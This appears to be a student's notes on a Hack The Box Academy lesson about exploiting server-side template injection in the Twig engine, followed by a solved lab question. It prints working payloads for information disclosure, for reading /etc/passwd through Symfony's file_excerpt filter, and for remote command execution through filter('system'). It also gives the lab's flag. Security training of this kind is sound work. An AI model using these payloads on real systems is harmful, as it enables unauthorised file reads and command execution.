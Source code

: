 ```yaml
---
sticker: lucide//book-template
---
```


# Exploiting SSTI - Twig

In this section, we will explore another example of SSTI exploitation. In the previous section, we discussed exploiting SSTI in the `Jinja` template engine. This section will discuss exploiting SSTI in the `Twig` template engine. Like in the previous section, we will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step. Twig is a template engine for the PHP programming language.

***

### Information Disclosure

In Twig, we can use the `_self` keyword to obtain a little information about the current template:

```twig
{{ _self }}
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_1.png)

However, as we can see, the amount of information is limited compared to `Jinja`.

***

### Local File Inclusion (LFI)

Reading local files (without using the same way as we will use for RCE) is not possible using internal functions directly provided by Twig. However, the PHP web framework [Symfony](https://symfony.com/) defines additional Twig filters. One of these filters is [file\_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) and can be used to read local files:

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

***

### Remote Code Execution (RCE)

To achieve remote code execution, we can use a PHP built-in function such as `system`. We can pass an argument to this function by using Twig's `filter` function, resulting in any of the following SSTI payloads:

```twig
{{ ['id'] | filter('system') }}
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_3.png)

***

### Further Remarks

This module explored exploiting SSTI in the `Jinja` and `Twig` template engines. As we have seen, the syntax of each template engine is slightly different. However, the general idea behind SSTI exploitation remains the same. Therefore, exploiting an SSTI in a template engine the attacker is unfamiliar with is often as simple as becoming familiar with the syntax and supported features of that particular template engine. An attacker can achieve this by reading the template engine's documentation. However, there are also SSTI cheat sheets that bundle payloads for popular template engines, such as the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).

## Question

***

!\[]\(Pasted image 20250212132712.png)

We can use the following payload to test if the page is vulnerable:

```twig
{{ _self }}
```

!\[]\(Pasted image 20250212141640.png)

Nice, let's get RCE:

```twig
{{ ['id'] | filter('system') }}
```

!\[]\(Pasted image 20250212141706.png)

Ok, let's read the `/` directory:

```twig
{{ ['ls /'] | filter('system') }}
```

!\[]\(Pasted image 20250212141749.png)

We found the flag:

```twig
{{ ['cat /flag.txt'] | filter('system') }}
```

!\[]\(Pasted image 20250212141817.png)

Flag is:

```
HTB{5034a6692604de344434ae83f1cdbec6}
```

